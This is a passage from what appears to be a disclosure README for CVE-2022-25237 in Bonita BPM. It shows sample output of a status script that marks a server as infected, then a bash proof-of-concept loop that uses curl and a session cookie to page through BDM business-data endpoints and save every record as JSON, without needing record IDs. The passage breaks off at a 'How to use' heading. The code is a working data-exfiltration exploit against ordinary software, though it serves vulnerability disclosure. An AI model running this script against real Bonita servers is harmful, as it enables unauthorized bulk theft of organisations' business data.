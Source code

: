 Example output of the `cve-2022-25237-status.sh` script on case of infected system.

```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
CVE-2022-25237 status
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Bonita Server:          * * *
Bonita Version:         7.11.1
Cookie Conf:            Set
Session Status:         Not Alive
User Profiles:          User
CVE-2022-25237:         Infected
Requests Limit:         5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```

The actual domain name of the server is obscured using `* * *` characters for security purposes.

### 5.3. Bash Script for BDM Endpoints

The full script is located in the file `./poc/dnl-bd.sh`. The following code segment demonstrates how easily data can be downloaded automatically from a server without needing to know any data record IDs.

Sends HTTP GET requests to `API/bdm/businessData/com.company.model.<ObjectName>?q=find&p=<page>&c=1`, incrementing `p` until an empty result set is returned.

```bash
# Loop trough list of Business Object types
for BD_OBJ in "${BD_OBJECTS_ARR[@]}"; do
    PAGE=0 && BD_NAME=${BD_OBJ##*.}
    DIR_STORE="${DIR_OUT_BD}/${BD_NAME}" && mkdir -p "${DIR_STORE}"
    echo -e "\n\t${BD_NAME}"
    # Loop pages
    while [ "${PAGE}" -lt "${BN_RQ_LIMIT}" ]; do
        printf "\r\t\tRequest: %d" "$((PAGE+1))" && do_delay
        # Request data
        DATA=$(curl -s -b "${BN_SESS_COOKIE}" "$(make_bd_url "${BD_OBJ}" "${PAGE}")")
        P_ID=$(json_extract_value "${DATA}" 'persistenceId') # Persistence ID
        # Validate data, save or break
        if [ -n "${P_ID}" ] && [ "${P_ID}" != "unknown" ]; then
            echo "${DATA}" > "${DIR_STORE}/${BD_NAME}-${P_ID}.json"
        else
            printf "\n\t\t\t\t%s" "$([ "${PAGE}" -eq 0 ] && echo "No data" || echo "No more data")" && break
        fi
        ((PAGE++)) # Increase page number
    done
    # end of pages loop
done
# end of objects loop
```

#### How to use
